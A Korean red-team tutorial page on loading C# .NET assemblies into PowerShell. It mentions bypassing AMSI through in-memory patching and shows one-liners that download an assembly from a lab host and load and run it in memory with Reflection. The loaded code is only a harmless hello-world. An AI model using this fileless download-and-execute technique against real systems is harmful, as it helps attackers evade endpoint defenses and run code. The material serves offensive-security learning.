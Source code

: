 # C# 실행

C#과 파워쉘은 둘 다 닷넷 (프레임워크)를 기반으로 만들어졌기 때문에 C#에서 파워쉘을 불러오는 것도 가능하고, 파워쉘에서 C#을 불러오는 것도 가능하다. C# 뿐만 아니라 닷넷 프레임워크를 사용하는 boolang, iron-python, iron-ruby 등도 가능하다. 파워쉘에서 C#을 불러온 뒤, 그 C# 이 파워쉘을 실행하는 것도 가능하다.&#x20;

### 주의사항&#x20;

파워쉘 AMSI 뿐만 아니라 타겟 호스트가 .NET 4.8 이상의 닷넷 (프레임워크) 버전을 갖고 있다면 .NET AMSI 또한 우회해야한다. 이는 닷넷 어셈블리 내에서 인메모리 함수 패치등을 이용하면 된다.&#x20;

### 실습&#x20;

파워쉘에서 C#으로 만든 닷넷 어셈블리를 불러와보자. 일단 C# 코드를 컴파일 한 뒤, 이 어셈블리를 파이썬을 이용해 호스팅 한다.&#x20;

```
using System;

namespace test
{
    public class test
    {
        public static void Main(string[] args)
        {
            Console.WriteLine("[+] hello, from C#!");
        }
    }
}

===============================

ps> python -m http.server 8443
```

유의해야 할 점은 클래스와 함수 모두 `public` 엑세스 제한을 가지고 있어야한다는 것이다.&#x20;

이제 이 닷넷 어셈블리를 다운 받고, 불러온 뒤, 실행시킨다.&#x20;

```
$a = (New-Object net.webclient).DownloadData('http://192.168.40.179:8443/test.exe')
$b = [System.Reflection.Assembly]::Load($a)
[test.test]::Main("")

[+] hello, from C#!
```

이를 원라이너로 만들 수도 있다.&#x20;

```
[System.Reflection.Assembly]::Load((New-Object net.webclient).DownloadData('http://192.168.40.179:8443/test.exe')) | Out-Null; [<NameSpace>.<Class>]::Main("")

[+] hello, from C#!
```



\---&#x20;

DLL을 만든 뒤 실행하는 것도 가능하다. 유의할 점은 실행할 함수가 `static` 이여야한다.&#x20;

```
using System;

namespace test
{
    public class test
    {
        public static void Execute()
        {
            Console.WriteLine("[+] hello, from C#!");
        }
    } 
}

==========

[System.Reflection.Assembly]::Load((New-Object net.webclient).DownloadData('http://192.168.40.179:8443/test.dll')) | Out-Null; [test.test]::Execute()

[+] hello, from C#!
```
